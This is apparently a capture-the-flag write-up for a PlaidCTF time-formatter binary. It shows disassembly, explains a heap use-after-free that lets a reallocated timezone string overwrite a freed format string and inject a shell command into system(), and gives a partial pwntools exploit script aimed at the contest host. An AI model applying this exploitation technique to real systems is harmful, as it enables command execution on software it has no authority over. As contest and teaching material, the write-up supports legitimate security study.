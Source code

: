 ```
0x00400ffa      750f           jne 0x40100b
0x00400ffc      bf30124000     mov edi, str.OK__exiting.
0x00401001      e84af9ffff     call sym.imp.puts
0x00401006      b801000000     mov eax, 1
0x0040100b      488b4c2418     mov rcx, qword [rsp + 0x18]
0x00401010      6448330c2528.  xor rcx, qword fs:[0x28]
0x00401019      7405           je 0x401020
0x0040101b      e850f9ffff     call sym.imp.__stack_chk_fail
0x00401020      4883c428       add rsp, 0x28
0x00401024      c3             ret
```

# Vulnerability

To be able to execute arbitrary command through the `system` call, we need to be able to inject either a `;` or `&` in the `FORMAT`. To do that we can:

* allocate two strings for the timezone and format that are big enough to avoid being handled by the [fastbins] (in that order).
* Fake an exit to free both pointers. We will have [dangling pointers][dangling] in `TZ` and `FORMAT`.
* Set a new timezone. `malloc` will place it where the old timezone was. If the timezone is big enough we will be able to write on the `free`'d chunk that used to contain the format. In the timezone we can inject a command such as `ls -la`

# Payload

At first I tried to execute a shell, but it wasn't responding therefore I made a first payload to list the content of the current directory and then I modified it to read the content of the file containing the flag:

```
#!/usr/bin/env python2
# Please port pwntools to python3...
from pwn import *

r = remote('unix.pwning.xxx', 9999)
#r = remote('localhost', 9999)
# socat tcp-l:9999,reuseaddr,fork exec:./unix_time_formatter

def do_send(msg):
    print msg
    r.sendline(msg)

def do_recv(msg):
    print r.recvuntil(msg)

def do_it(r, s):
    do_recv(r)
    do_send(s)

do_recv('> ')
# Set a timezone
do_send('3') 
do_recv(': ')
do_send('A'*256)
do_recv('> ')
# Set a foramt
do_send('1')
do_recv(': ')
do_send('B'*256)
do_recv('> ')
# Exit
```

[plaidctf]: http://www.plaidctf.com/
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strspn]: http://man7.org/linux/man-pages/man3/strspn.3.html
[setenv]: http://man7.org/linux/man-pages/man3/setenv.3.html
[system]: http://man7.org/linux/man-pages/man3/system.3.html
[fastbins]: http://man7.org/linux/man-pages/man3/mallopt.3.html
[dangling]: https://en.wikipedia.org/wiki/Dangling_pointer